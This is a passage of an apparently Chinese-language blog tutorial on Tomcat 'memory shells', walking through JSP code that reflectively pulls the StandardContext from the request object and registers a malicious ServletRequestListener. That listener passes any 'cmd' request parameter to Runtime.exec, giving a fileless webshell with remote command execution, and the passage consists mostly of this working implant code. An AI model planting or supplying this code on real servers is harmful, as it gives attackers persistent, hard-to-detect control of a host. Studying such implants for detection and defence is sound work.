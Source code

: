 
接着是获取 StandardContext 的代码，并且添加 Listener

在 `StandardHostValve#invoke` 中，可以看到其通过request对象来获取 `StandardContext` 类

![img](https://drun1baby.top/2022/08/27/Java%E5%86%85%E5%AD%98%E9%A9%AC%E7%B3%BB%E5%88%97-04-Tomcat-%E4%B9%8B-Listener-%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/Invoke.png)

同样地，由于JSP内置了request对象，我们也可以使用同样的方式来获取

JAVA

```
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
%>
```

接着我们编写一个恶意的Listener

JAVA

```
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
                }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
```

最后添加监听器

JAVA

```
<%
	Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```
